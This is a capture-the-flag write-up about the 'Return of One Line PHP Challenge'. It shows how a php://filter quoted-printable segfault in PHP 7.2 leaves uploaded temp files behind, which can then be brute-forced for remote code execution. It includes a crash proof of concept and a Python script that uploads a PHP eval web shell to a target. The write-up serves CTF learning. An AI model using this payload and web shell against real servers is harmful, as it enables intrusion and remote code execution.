 ### References

- [@wupco, rwctf | The return of One Line PHP Challenge, 2018-12-02](http://www.wupco.cn/?p=4465)
- [@Smi1e, Real World CTF Of "The Return of One Line PHP Challenge", 2018-12-05](https://www.anquanke.com/post/id/167219)
- [@王一航, LFI via SegmentFault, 2017-11-08](https://www.jianshu.com/p/dfd049924258)

**Tag: PHP wrappers, Segment Fault**

There was one bug submitted in 2017 from 王一航, which was segmentation fault in php version < 7.2, you can get information in reference[3]

This challenge is similar to this bug, but the php version given here was 7.2, 
so we need to find segmentation fault in 7.2. [Here](https://hackmd.io/@ZzDmROodQUynQsF9je3Q5Q/Hk-2nUb3Q?type=view) is analysis from @wupco, and we can get the POC:

```php
php > echo phpversion();
7.2.12
php > file(urldecode('php://filter/convert.quoted-printable-encode/resource=data://,%bfAAAAAAAAFAAAAAAAAAAAAAA%ff%ff%ff%ff%ff%ff%ff%ffAAAAAAAAAAAAAAAAAAAAAAAA'));
Segmentation fault (core dumped)
```

1.As everyone knows, when we upload a file, server make a temp file having same content as uploaded file and after some time it gets deleted.

The temp file will be stored in the default temporary directory of the server after file is uploaded, and the directory is specified by the `upload_tmp_dir` attribute of php.ini

- Generally, Linxu temporary files are stored in the `/tmp` folder, and named `/tmp/php[6 random letter]`
- And Windows is `C:/Windows/`, may also be `C:/Windows/Temp/`, and named `C:/Windows/php[4 random letter].tmp`

2.We can use the following script to make POST request and send shell file:

```python
import io
import requests

HOST = "http://192.168.200.129/test.php"
SHELL = "@<?php eval($_REQUEST[a]);?>"
PAYLOAD = "php://filter/convert.quoted-printable-encode/resource=data://,%bfAAAAAAAAAAAAAAAAAAAAAAA%ff%ff%ff%ff%ff%ff%ff%ffAAAAAAAAAAAAAAAAAAAAAAAA"

f = {'file': io.BytesIO(SHELL.encode())}
url = HOST + f'?orange={PAYLOAD}'
with requests.session() as s:
    r = s.post(url=url, files=f, allow_redirects=False)
    print(r.status_code)
```

The output status code in Apache is 500, and in Nginx is 502. In `/tmp`, we can find the temp file:

![](https://i.imgur.com/5abE2HS.png)

3.Now we just need to bruteforce for the temp file. But before that, we can upload multiple times to generate a large number of temp files which can improve the efficiency of brute force.

For demonstration, I changed the file name manually:

![](https://i.imgur.com/FgqLSzm.png)

btw, i dont know how to terminate the program in multiple threads. sad😥

![](https://i.imgur.com/xLq4H38.png)

---

2021.06.02 Update:

Later learned to use the `Event` module.

> `Event` is an object that can be used in multiple threads, initially it contains a signal flag of `False`, once this flag is changed to `True` in any one thread, then all threads will see this flag become True

So a slight modification to the poc.py. When `event.set()` is executed, Another thread is then terminated.